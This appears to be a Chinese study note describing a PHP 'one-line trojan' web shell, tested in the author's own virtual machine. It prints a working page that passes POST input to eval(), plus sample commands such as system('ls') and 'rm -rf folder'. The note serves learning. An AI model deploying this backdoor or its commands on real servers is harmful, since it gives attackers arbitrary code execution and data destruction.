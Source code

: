 主要的原理就是利用php的eval函数，可以把字符串当成命令来执行
虚拟机上的php代码
``` php
<html>
<body>
<form action = "yijuhua_muma.php" method = "post">
name:<input type:"text" name="value"><br>
<input type = "submit">
</form>
<?php
 $cmd = $_POST[value];
echo "<pre>";
eval ($cmd);
echo "</pre>";
?>
<body>
</html>
```
在物理机上的浏览器访问的时候会出现一个输入框和提交按钮，在输入框里输入要执行的命令，即可，如
>phpinfo(); system("ls"); cat xxx.xx;ifconfig;

好像必须加如最后的分号,要不然执行后没有反应。但是在执行

>mkdir folder ; rm -rf folder 

的时候不成功，难道是只有读的权限没有写入的权限？这些只是最简单的一句话木马，基本上没有什么危害，也就只能在自己的虚拟机里重现。
